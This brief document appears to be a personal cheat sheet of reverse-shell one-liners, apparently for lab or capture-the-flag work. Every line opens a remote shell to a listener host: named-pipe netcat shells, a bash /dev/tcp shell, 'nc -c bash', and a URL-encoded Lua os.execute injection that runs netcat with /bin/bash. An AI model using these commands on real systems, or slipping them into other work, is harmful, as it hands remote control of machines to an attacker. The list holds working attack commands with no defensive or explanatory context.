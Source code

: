 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f`

`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
try nc shells 
`os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--`

`nc -c bash xxx xxx`

`mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa`
